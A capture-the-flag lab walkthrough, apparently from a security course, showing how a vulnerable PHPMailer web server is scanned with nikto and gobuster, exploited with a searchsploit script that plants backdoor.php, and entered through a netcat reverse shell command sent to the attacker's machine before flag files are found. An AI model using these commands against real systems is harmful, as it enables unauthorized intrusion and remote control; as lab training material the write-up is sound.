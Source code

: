 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1.  The existence of a Directory index was found while using Nikto to find vulnerabilities on the webserver

        nikto -C all -h 192.168.1.115

    ![2](/Images/4/2.PNG)

2. Several paths to explore are revealed with the use of Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![3](/Images/4/3.PNG)

3. Exploring `192.168.1.115/vendor/` with the browser, we found several important paths including four revealing the use of PHPMAILER.
    
    Open URL in the browser

        192.168.1.115/vendor/

    ![4](/Images/4/4.PNG)     
        
4. PATH: reveals the first flag.

    Double click link

        192.168.1.115/vendor/PATH

    **Flag1**

    ![5](/Images/4/5.PNG)

5. SECURITY.md: Reveals details of versions of the PHPMAILER.

    Double Click to open file on browser

    ![6](/Images/4/6.PNG)    

6. VERSION: Reveals the current version of PHPMAILER in use

    Double click link

    ![7](/Images/4/7.PNG)  

7. Search script to exploit vulnerability 

        searchsploit phpmailer

    ![8](/Images/4/8.PNG)  

8. Look at Python Script

        Open on browser the path `192.168.1.115/vendor/PATH`

    ![9](/Images/4/9.PNG) 

9. press "q" keyboard to quit view

10. Download the script to the current folder

        searchsploit phpmailer -m php/webapps/40968.sh

    ![10](/Images/4/10.PNG)

11. Authorize file to execute

        sudo chmod 777 40968.sh

12. run exploit

        ./40968.sh 192.168.1.115

    ![11](/Images/4/11.PNG)

13. Now we know the PHPMAILER can be exploited. We can find and use a more useful script that allow to create a shell to the vulnerable machine. Exploit.sh installs a backdoor.php file that give the capability to execute command injection attacks.

    [exploit.sh](/Resources/explot.sh)

14. We take a look at the script and customize it for this exploit. (change the URL for the target machine)

        nano exploit.sh

    ##### Note: Use "CTRL X", then "y", and "enter" (to exit nano)

    ![12](/Images/4/12.PNG)

16. Authorize file to execute

         sudo chmod 777 exploit.sh

17. Execute file

        ./exploit.sh

    ![13](/Images/4/13.PNG)

18. Backdoor.php let us run bash commands like netcat. We can use netcat to create a shell. First set netcat to lisent on kali machine

         nc -lnvp 4444

   ![14](/Images/4/14.PNG)

19. Next, we look at our own IP address to use it with netcat to call our kali machine from the exploited machine (Target 2). 

        ifconfig

   ![15](/Images/4/15.PNG)


20. We use our IP address with netcat to call our kali machine from the exploited machine (Target2). We insert the command throuht the browser

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    ##### Note: change the second IPaddress for your own 

    ![16](/Images/4/16.PNG)

20. Now we have access. We look for the second flag

        find /var/www -type f -iname 'flag*'

    ![17](/Images/4/17.PNG)

21. Open file

        cat /var/www/flag2.txt

    **flag2**

    ![18](/Images/4/18.PNG)

23. Look for others flags

        find -type f -iname '*flag*'

    ![19](/Images/4/19.PNG)

21. We found the file active on wordpress, so we go to that direction on the browser

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

   ![20](/Images/4/20.PNG)
